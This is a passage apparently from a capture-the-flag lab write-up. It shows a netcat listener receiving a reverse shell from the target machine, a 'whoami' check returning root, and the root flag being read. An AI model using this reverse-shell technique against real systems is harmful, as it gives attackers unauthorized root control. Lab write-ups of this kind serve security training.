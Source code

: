 We will get the root shell.

```bash
$ nc -lnvp 1111
listening on [any] 1111 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.78.209] 45624
# whoami
root
```

Root.txt:

```bash
# ls
root.txt
# cat root.txt
thm{REDACTED}
````


